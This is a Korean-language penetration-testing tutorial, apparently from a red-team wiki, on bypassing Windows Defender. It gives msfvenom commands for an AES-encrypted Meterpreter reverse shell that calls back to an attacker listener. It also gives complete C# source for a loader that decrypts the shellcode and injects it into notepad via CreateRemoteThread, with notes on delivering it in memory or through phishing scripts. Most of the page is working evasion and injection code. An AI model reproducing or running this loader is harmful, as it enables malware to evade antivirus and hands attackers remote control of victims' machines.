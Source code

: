# 간단 디펜더 우회 - 쉘코드

윈도우 10과 윈도우 11의 워크스테이션용 디펜더는 날이 갈수록 그 성능이 좋아지고 있다. EDR 솔루션들 만큼은 아니지만, 시중에 나와있는 평범한 AV 솔루션들보다 그 성능이 더 좋아보일 정도다. 모의해킹을 진행하다보면 시간이 적어 빨리 빨리 일을 진행해야하기 때문에 매번 페이로드를 새롭게 생성할 시간적 여유가 없다. 이 페이지에서는 간단하게 워크스테이션용 디펜더 (ATP는 아니다)를 커스텀 로더 (Custom Loader)를 이용해 우외하는 방법에 대해서 알아본다.

실습에서 만들 커스텀 로더는 AES256으로 암호화된 쉘코드를 런타임 중 복호화하고, 그 뒤 전통적인 `CreateRemoteThread` 프로세스 인젝션으로 미터프리터 (Meterpreter) 쉘코드를 실행할 것이다.

### 쉘코드

쉘코드는 미터프리터로, msfvenom을 이용해 만든다. 일반적인 쉘코드와는 다르게 암호화 플래그를 사용한다. AES256-CBC 암호화에는 32바이트 (256비트) 암호화 키와 16바이트 (128비트) IV를 사용하기 때문에, 이를 bash를 이용해 먼저 구한 뒤 쉘코드를 생성한다.

```
# 키 생성 
bash -c 'echo $RANDOM | md5sum | head -c 32; echo;'

# IV 생성 
bash -c 'echo $RANDOM | md5sum | head -c 16; echo;'

# 키와 IV를 바탕으로 예제 쉘코드 생성
msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
```

이제 이 쉘코드를 커스텀 로더에 집어넣은 뒤, 프로세스 인젝션을 통해 실행시켜보자.

### 커스텀 로더 (Loader)

기본적으로 msfvenom으로 만드는 미터프리터 (Meterpreter)의 경우에는 `.exe` 나 `.ps1` 등의 페이로드가 이미 디펜더에 시그니쳐 되어있다. 때문에 msfvenom 이 만들어주는 페이로드를 사용하지 않고, 간단하게 커스텀 로더를 만든다.

이 실습에서는 가장 간단하게 아무런 난독화를 거치지 않고, 공개된지 매우 오래된 CreateRemoteThread 기법을 사용한 커스텀 로더를 제작한다.

<details>

<summary>EncryptedCreateRemoteThread.cs</summary>

```
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace EncryptCreateRemoteThread
{
    class Program
    {
        public static byte[] Aes256Decrypt(byte[] data, byte[] key, byte[] iv)
        {
            using (var aes = Aes.Create())
            {
                aes.KeySize = 128;
                aes.BlockSize = 128;
                aes.Padding = PaddingMode.Zeros;

                aes.Key = key;
                aes.IV = iv;

                using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
                {
                    return PerformCryptography(data, decryptor);
                }
            }
        }

        private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
        {
            using (var ms = new MemoryStream())
            using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
            {
                cryptoStream.Write(data, 0, data.Length);
                cryptoStream.FlushFinalBlock();

                return ms.ToArray();
            }
        }

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
            byte[] bufEncrypted = new byte[624] { <shellcode...> };

            string key = "9db7ad8ace353ab54a812373d7c0a01f";
            string iv = "3a9d7c0cf4ac0431";
            byte[] buf = Aes256Decrypt(bufEncrypted, Encoding.ASCII.GetBytes(key), Encoding.ASCII.GetBytes(iv));

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;

            IntPtr hProc = OpenProcess(ProcessAccessFlags.All, false, pid);
            IntPtr pAlloc = VirtualAllocEx(hProc, IntPtr.Zero, (uint)buf.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ReadWrite);
            bool rWPM = WriteProcessMemory(hProc, pAlloc, buf, (uint)buf.Length, out IntPtr byteWritten);
            bool rVPE = VirtualProtectEx(hProc, pAlloc, (uint)buf.Length, (uint)MemoryProtection.ExecuteRead, out uint lpflOldProtect);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, (uint)0, pAlloc, IntPtr.Zero, (uint)0, out IntPtr lpThreadId);


            /*Console.WriteLine("[+] Process handle = {0}", hProc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Allocated memory address = 0x{0}", pAlloc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] WriteProcessMemory result = {0}", rWPM.ToString());
            Console.WriteLine("[+] VirtualProtectExe result = {0}", rVPE.ToString());
            Console.WriteLine("[+] Thread handle = {0}", hThread.ToInt64().ToString("x2"));*/
        }

        //  ============================ PInvoke - Ignore me ============================

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF,
            Terminate = 0x00000001,
            CreateThread = 0x00000002,
            VirtualMemoryOperation = 0x00000008,
            VirtualMemoryRead = 0x00000010,
            VirtualMemoryWrite = 0x00000020,
            DuplicateHandle = 0x00000040,
            CreateProcess = 0x000000080,
            SetQuota = 0x00000100,
            SetInformation = 0x00000200,
            QueryInformation = 0x00000400,
            QueryLimitedInformation = 0x00001000,
            Synchronize = 0x00100000
        }

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
}
```

</details>

PInvoke를 제외한다면 `OpenProcess -> VirtualAllocEx -> WriteProcessMemory -> VirtualProtectEx -> CreateRemoteThread` 를 사용하는 전통적인 프로세스 인젝션 로더다. 이와 관련된 기법은 이 [CreateRemoteThread 페이지](process-injection/createremotethread.md)에서 서술했다.

`Main()` 함수를 보다보면 안에 `bufEncrypted` 변수가 있다. 여기에는 위에서 만든 쉘코드를 집어넣어주면 된다.

PDB를 제거한 뒤, x64로 컴파일한다. 20년이 넘은 `CreateRemoteThread` 기법에 아무런 난독화를 거치지 않아도 정적분석은 나름 괜찮게 우회하는 편이다. 물론 왠만한 EDR 솔루션들은 위 페이로드를 실행하는 순간 바로 잡아낼 것이다. (디펜더 우회가 아니라 EDR 솔루션 우회는 direct syscall 과 Call Stack Spoofing 등의 기법을 이용하는데, 이에 대해서는 다른 페이지에서 서술한다.)

![https://www.virustotal.com/gui/file/2c23e1512d8e928202237d86f98145f30d544e78f1ed756a497d3482a4ffa262/detection](<../.gitbook/assets/image (15) (1).png>)

최신 EDR 솔루션들을 우회하기는 어렵겠지만, 가장 최신 버전의 디펜더는 우회하는 모습을 볼 수 있다.

![](../.gitbook/assets/custom-loader.gif)

C# 으로 만든 페이로드기 때문에 [파워쉘-C# 페이지](../execution/powershell/csharp-execution.md)에서 서술했던 대로 메모리상에서 파워쉘을 통해 실행시킬 수도 있다. 혹은 [DotNettoJS 페이지](../initial-access/phish-attachments/dotnettojs.md)에서 서술했던 대로 JScript나 VBScript 등으로 변환할 수도 있다.
